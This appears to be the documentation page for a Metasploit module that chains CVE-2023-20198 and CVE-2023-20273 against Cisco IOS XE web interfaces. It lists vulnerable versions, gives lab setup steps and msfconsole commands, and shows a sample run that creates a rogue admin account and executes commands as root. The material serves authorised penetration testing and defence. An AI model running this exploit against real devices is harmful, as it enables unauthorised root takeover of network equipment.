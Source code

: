## Vulnerable Application
This module leverages both CVE-2023-20198 and CVE-2023-20273 against vulnerable instances of Cisco IOS XE
devices which have the Web UI exposed. An attacker can execute arbitrary OS commands with root privileges.

This module leverages CVE-2023-20198 to create a new admin user, then authenticating as this user,
CVE-2023-20273 is leveraged for OS command injection. The output of the command is written to a file and read
back via the webserver. Finally the output file is deleted and the admin user is removed.

The vulnerable IOS XE versions are:

16.1.1, 16.1.2, 16.1.3, 16.2.1, 16.2.2, 16.3.1, 16.3.2, 16.3.3, 16.3.1a, 16.3.4,
16.3.5, 16.3.5b, 16.3.6, 16.3.7, 16.3.8, 16.3.9, 16.3.10, 16.3.11, 16.4.1, 16.4.2,
16.4.3, 16.5.1, 16.5.1a, 16.5.1b, 16.5.2, 16.5.3, 16.6.1, 16.6.2, 16.6.3, 16.6.4,
16.6.5, 16.6.4s, 16.6.4a, 16.6.5a, 16.6.6, 16.6.5b, 16.6.7, 16.6.7a, 16.6.8, 16.6.9,
16.6.10, 16.7.1, 16.7.1a, 16.7.1b, 16.7.2, 16.7.3, 16.7.4, 16.8.1, 16.8.1a, 16.8.1b,
16.8.1s, 16.8.1c, 16.8.1d, 16.8.2, 16.8.1e, 16.8.3, 16.9.1, 16.9.2, 16.9.1a, 16.9.1b,
16.9.1s, 16.9.1c, 16.9.1d, 16.9.3, 16.9.2a, 16.9.2s, 16.9.3h, 16.9.4, 16.9.3s, 16.9.3a,
16.9.4c, 16.9.5, 16.9.5f, 16.9.6, 16.9.7, 16.9.8, 16.9.8a, 16.9.8b, 16.9.8c, 16.10.1,
16.10.1a, 16.10.1b, 16.10.1s, 16.10.1c, 16.10.1e, 16.10.1d, 16.10.2, 16.10.1f, 16.10.1g,
16.10.3, 16.11.1, 16.11.1a, 16.11.1b, 16.11.2, 16.11.1s, 16.11.1c, 16.12.1, 16.12.1s,
16.12.1a, 16.12.1c, 16.12.1w, 16.12.2, 16.12.1y, 16.12.2a, 16.12.3, 16.12.8, 16.12.2s,
16.12.1x, 16.12.1t, 16.12.2t, 16.12.4, 16.12.3s, 16.12.1z, 16.12.3a, 16.12.4a, 16.12.5,
16.12.6, 16.12.1z1, 16.12.5a, 16.12.5b, 16.12.1z2, 16.12.6a, 16.12.7, 16.12.9, 16.12.10,
17.1.1, 17.1.1a, 17.1.1s, 17.1.2, 17.1.1t, 17.1.3, 17.2.1, 17.2.1r, 17.2.1a, 17.2.1v,
17.2.2, 17.2.3, 17.3.1, 17.3.2, 17.3.3, 17.3.1a, 17.3.1w, 17.3.2a, 17.3.1x, 17.3.1z,
17.3.3a, 17.3.4, 17.3.5, 17.3.4a, 17.3.6, 17.3.4b, 17.3.4c, 17.3.5a, 17.3.5b, 17.3.7,
17.3.8, 17.4.1, 17.4.2, 17.4.1a, 17.4.1b, 17.4.1c, 17.4.2a, 17.5.1, 17.5.1a, 17.5.1b,
17.5.1c, 17.6.1, 17.6.2, 17.6.1w, 17.6.1a, 17.6.1x, 17.6.3, 17.6.1y, 17.6.1z, 17.6.3a,
17.6.4, 17.6.1z1, 17.6.5, 17.6.6, 17.7.1, 17.7.1a, 17.7.1b, 17.7.2, 17.10.1, 17.10.1a,
17.10.1b, 17.8.1, 17.8.1a, 17.9.1, 17.9.1w, 17.9.2, 17.9.1a, 17.9.1x, 17.9.1y, 17.9.3,
17.9.2a, 17.9.1x1, 17.9.3a, 17.9.4, 17.9.1y1, 17.11.1, 17.11.1a, 17.12.1, 17.12.1a,
17.11.99SW

NOTE: The C8000v series appliance version 17.6.5 was observed to not be vulnerable to CVE-2023-20273, even
though the IOS-XE version indicates they should be vulnerable to CVE-2023-20273.

## Testing
This module was tested against IOS XE version 16.12.3. To test this module you will need to either:

* Acquire a hardware device running one of the vulnerable firmware versions listed above.

Or

* Setup a virtualized environment.
  * A [CSR1000V](https://www.cisco.com/c/en/us/products/routers/cloud-services-router-1000v-series/index.html) device
    can be virtualized using [GNS3](https://www.gns3.com/) and VMWare Workstation/Player. Follow the
    [Windows setup guide](https://docs.gns3.com/docs/getting-started/installation/windows) to install GNS3 and the
    [topology guide](https://docs.gns3.com/docs/getting-started/your-first-gns3-topology) to learn how GNS3 can be used.
  * A suitable firmware image for testing would be `csr1000v-universalk9.16.12.03-serial.qcow2`.
  * When setting up GNS3, run the `GNS3 2.2.43` Virtual Machine for deploying QEMU based devices.
  * Create a new CSR1000v instance as a QEMU device.
  * The CSR1000v device's first ethernet adapter `Gi1` should be connected to a Cloud device, whose adapter was bridged
    to the physical adapter on the host machine, allowing an IP address to be assigned via DHCP, and allowing the Web UI to
    be accessible to a remote attacker.
  * When the virtual router has booted up, you must enable the vulnerable WebUI component. From a serial console on
    the device:
    ```
    Router>enable
    Router#config
    Router(config)#ip http server
    router(config)#ip http secure-server
    router(config)#ip http authentication local
    router(config)#username admin privilege 15 secret qwerty
    router(config)#exit
    Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set CMD "id"`
5. `run`

## Options

### CMD
A Linux OS command to execute on the target device, e.g. `id`

### CISCO_ADMIN_USERNAME
The username of an admin account. If not set, CVE-2023-20198 is leveraged to first create a new admin account and then
the new account is then removed after the module completes.

### CISCO_ADMIN_PASSWORD
The password of an admin account. If not set, CVE-2023-20198 is leveraged to create a new admin password.

### REMOVE_OUTPUT_TIMEOUT
The maximum timeout (in seconds) to wait when trying to removing the commands output file. The output file
can be locked preventing deleting upon the first attempt, so the module will try again if needed.

## Scenarios

```
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > show options

Module options (auxiliary/admin/http/cisco_ios_xe_os_exec_cve_2023_20273):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CISCO_ADMIN_PASSWORD                    no        The password of an admin account. If not set, CVE-2023-20198 is leveraged to c
                                                     reate a new admin password.
   CISCO_ADMIN_USERNAME                    no        The username of an admin account. If not set, CVE-2023-20198 is leveraged to c
                                                     reate a new admin account.
   CMD                    id               yes       The OS command to execute.
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   REMOVE_OUTPUT_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to removing the commands
                                                     output file.
   RHOSTS                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                                     cs/using-metasploit.html
   RPORT                  443              yes       The target port (TCP)
   SSL                    true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set rhosts 10.5.135.193
rhosts => 10.5.135.193
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > set verbose true
verbose => true
msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > run
[*] Running module against 10.5.135.193

[*] Created privilege 15 user 'rfojGrqA' with password 'ixnXyFlw'
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0

[*] Removing output file '/var/www/fNrmuBOf'
[*] Removing user 'rfojGrqA'
[*] Auxiliary module execution completed

msf6 auxiliary(admin/http/cisco_ios_xe_os_exec_cve_2023_20273) > 
```